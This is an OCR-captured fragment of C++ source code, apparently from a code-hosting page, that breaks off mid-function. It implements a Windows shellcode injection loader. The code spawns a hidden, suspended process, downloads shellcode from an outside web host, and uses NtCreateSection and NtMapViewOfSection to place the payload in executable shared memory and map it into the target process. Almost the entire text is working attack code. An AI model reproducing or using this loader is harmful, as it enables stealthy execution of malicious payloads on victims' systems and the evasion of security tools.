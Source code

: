```
    BOOL success = CreateProcess(
        NULL,
        cmd,
        NULL,
        NULL,
        FALSE,
        CREATE_NO_WINDOW | CREATE_SUSPENDED,
        NULL,
        NULL,
        startup_info,
        process_info);

    // download shellcode
    std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");

    // find Nt APIs
    HMODULE hNtdll = GetModuleHandle(L"ntdll.dll");
    NtCreateSection ntCreateSection = (NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
    NtMapViewOfSection ntMapViewOfSection = (NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
    NtUnmapViewOfSection ntUnmapViewOfSection = (NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");

    // create section in local process
    HANDLE hSection;
    LARGE_INTEGER szSection = { shellcode.size() };

    NTSTATUS status = ntCreateSection(
        &hSection,
        SECTION_ALL_ACCESS,
        NULL,
        &szSection,
        PAGE_EXECUTE_READWRITE,
        SEC_COMMIT,
        NULL);

    // map section into memory of local process
    PVOID hLocalAddress = NULL;
    SIZE_T viewSize = 0;

    status = ntMapViewOfSection(
        hSection,
        GetCurrentProcess(),
        &hLocalAddress,
        NULL,
        NULL,
        NULL,
        &viewSize,
        ViewShare,
        NULL,
        PAGE_EXECUTE_READWRITE);

    // copy shellcode into local memory
    RtlCopyMemory(hLocalAddress, &shellcode[0], shellcode.size());

    // map section into memory of remote process
    PVOID hRemoteAddress = NULL;

    status = ntMapViewOfSection(
        hSection,
        process_info->hProcess,
        &hRemoteAddress,
        NULL,
```